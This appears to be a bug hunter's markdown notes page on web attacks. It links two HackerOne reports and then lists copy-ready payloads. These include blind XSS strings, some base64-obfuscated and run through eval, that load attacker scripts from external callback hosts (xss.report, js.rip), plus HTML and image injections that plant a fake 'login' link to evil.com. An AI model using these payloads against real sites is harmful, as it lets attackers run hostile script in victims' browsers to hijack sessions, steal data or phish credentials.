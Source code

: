 ```yaml
---
tags:
  - web_hunting
---
```

- **[There is no rate limit for contact-us endpoints](https://hackerone.com/reports/856305)**
    
- [Blind XSS on image upload support chat](https://hackerone.com/reports/1010466)
    
- **blind XSS**
    
    ```python
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
    '"><script src=//xss.report/s/M8SZT8></script>
    "><script src="https://js.rip/l5j9hbki0b"></script>
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL2w1ajloYmtpMGIiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
    ```
    
- **HTML injection**
    
    ```python
    <Https://evil.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaa>%20%22<b>hello</b><h1>hacker</h1><a Href='abc.com'>xxxx</a>abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaacxcccc
    ```
    
- **img injection**
	```python
	 "/><img src="x"><a href="[https://evil.com](https://evil.com)">login</a>
	```